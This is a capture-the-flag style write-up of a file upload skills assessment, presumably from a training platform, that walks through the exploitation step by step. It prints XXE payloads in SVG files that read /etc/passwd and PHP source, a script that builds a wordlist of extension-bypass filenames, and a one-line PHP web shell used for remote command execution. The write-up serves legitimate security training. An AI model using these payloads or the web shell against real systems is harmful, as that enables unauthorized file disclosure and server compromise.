

## Skills Assessment – File Upload Attacks


### Objective

The goal of this assessment was to identify and exploit vulnerabilities in the file upload functionality of the target web application, escalate the findings to Remote Code Execution (RCE), and retrieve the assessment flag.


### Initial Reconnaissance

The target provided a web application on a specified IP and port.  

During exploration, I discovered an **upload form** located at `/contact`.


### Observation

- The form allowed image uploads.  

- Client-side JavaScript contained a `checkFile` function validating extensions (`.jpg`, `.jpeg`, `.png`).  





#### Hypothesis

While client-side validation was limited to `.jpg`, `.jpeg`, and `.png`, it could be easily bypassed using **Burp Suite**.  

The presence of client-side validation suggested that server-side validation might also exist. I therefore considered two possible vectors to test:

1. **File extensions** – single dangerous extensions like `.php` were unlikely to pass, but combinations or double extensions could be tested.  

2. **Content-Type headers (or MIME types)** – the backend might enforce `image/*` checks, so brute-forcing different MIME types could reveal additional accepted formats.  


### Testing File Upload Controls

#### Content-Type Brute Force

I noticed that clicking the **green button** triggered the uploaded image to be rendered back to the user, via a `POST` request.  


**Why I did this**: If the server validates MIME types, brute-forcing different values could reveal which types are accepted.

**Action**:
- Sent the request to **Burp Repeater**.  

- Created a dictionary of MIME types:  

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt

cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

**Result**:
Most values were rejected, but `image/svg+xml` was accepted.


This was interesting because SVG is XML-based and might allow **XXE injection**.


### Exploiting XXE in SVG Upload

#### Test Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```


**Result**:
The server returned the contents of `/etc/passwd`, confirming XXE exploitation.


### Source Code Disclosure via XXE

#### Reasoning

Since I could not directly read the flag file (its exact name was unknown), the next logical step was to analyze files related to the upload functionality.  

By retrieving source code, I aimed to understand how uploaded files were processed, where they were stored, and how validation checks were applied.
  
#### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```


**Result**:
The response contained Base64-encoded PHP source, which I decoded:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```

#### Key Findings from upload.php

Files saved in: `./user_feedback_submissions/`

File renamed: `date('ymd')_originalName`

Blacklist: blocks `.php`, `.phps`, `.phtml`

Whitelist: requires filename ending with `[a-z]{2,3}g` (e.g., `.jpg`, `.png`)

MIME check: regex `image/[a-z]{2,3}g`

Size limit: 500 KB


### Bypassing Upload Filters

#### Observation

Blacklist did not cover `.phar` (which executes as PHP).

Whitelist only checked the **last extension**, meaning double extensions could bypass it.

#### Hypothesis

By combining `.phar` with double extensions, it could bypass both filters and achieve code execution.

#### Extension Brute-Forcing

To bypass the blacklist and whitelist filters, I generated a custom wordlist using the following Bash script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.phar' '.pHaR'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

I used special characters and URL encodings (`%20`, `%0a`, `%00`, `%0d0a` ...) to bypass server-side filters that could block direct references to `.phar` or `.php`.

Using the generated wordlist, I tried to upload test files:


Several responses indicated successful uploads:


I then attempted to access the uploaded file via the browser:

```
http://<target_ip>:<target_port>/contact/user_feedback_submissions/<YYMMDD>_<filename>
```


When accessing the uploaded file, the browser displayed the raw bytes of the image instead of rendering it as a normal image. This confirms that the server executed the PHP payload, returning output instead of serving the file as an image, confirming that RCE was achievable.

I could now safely remove image content except for the initial bytes (magic bytes) required to bypass content checks and inject the PHP web shell code.


### Achieving RCE

#### Web Shell Upload

I created a `.phar.png` file with the following payload:

```php
<?php system($_GET['cmd']); ?>
```


Execution of a simple command confirmed successful RCE:

```
http://<target_ip>:<target_port>/contact/user_feedback_submissions/<YYMMDD>_<filename>?cmd=whoami
```


### Retrieving the Flag

With the web shell operational, the next steps were to enumerate the filesystem and locate the flag.  

I executed the following commands via the web shell:

```bash
ls /

cat <flag>.txt
```

This retrieved the flag and completed the assessment:


## Conclusion

The file upload functionality in the `/contact` directory was vulnerable to improper server-side validation and XXE. By leveraging these weaknesses, I successfully uploaded a crafted `.phar.png` file containing a PHP web shell, achieving RCE and retrieving the assessment flag.


### Key Takeaways

- Client-side validation of file extensions can be bypassed with Burp Suite  
- Server-side whitelist and blacklist filters were insufficient, allowing `.phar` and double-extension bypasses  
- Content-Type checks were bypassed via brute-forcing values (`image/svg+xml`)  
- XXE injection in SVG uploads enabled file disclosure, including source code  
- RCE achieved via uploaded web shell  
- Full server compromise and flag retrieval were possible